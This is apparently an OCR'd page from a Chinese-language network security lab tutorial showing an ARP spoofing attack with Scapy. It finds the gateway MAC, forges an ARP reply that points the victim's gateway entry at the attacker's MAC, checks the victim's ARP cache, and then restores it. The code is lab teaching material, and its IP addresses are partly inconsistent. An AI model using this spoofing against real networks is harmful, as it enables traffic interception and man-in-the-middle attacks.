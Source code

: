 ```bash
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:c0:0c:d0
#      psrc= 172.16.222.134
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.222.1


# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# Begin emission:
# Finished sending 1 packets.

# Received 0 packets, got 0 answers, remaining 1 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

ip neigh
# 192.168.0.103 dev enp0s3 lladdr 08:00:27:bd:92:09 STALE
# 192.168.0.1 dev enp0s3 lladdr 08:00:27:bd:92:09 REACHABLE
回到攻击者主机上的 scapy 交互式终端继续执行命令。

# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:2a:4b:04", psrc="192.168.0.102", hwsrc="08:00:27:aa:ff:3e")
sendp(restorepkt2, count=100, inter=0.2)
此时在受害者主机上准备“刷新”网关 ARP 记录。

## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
---
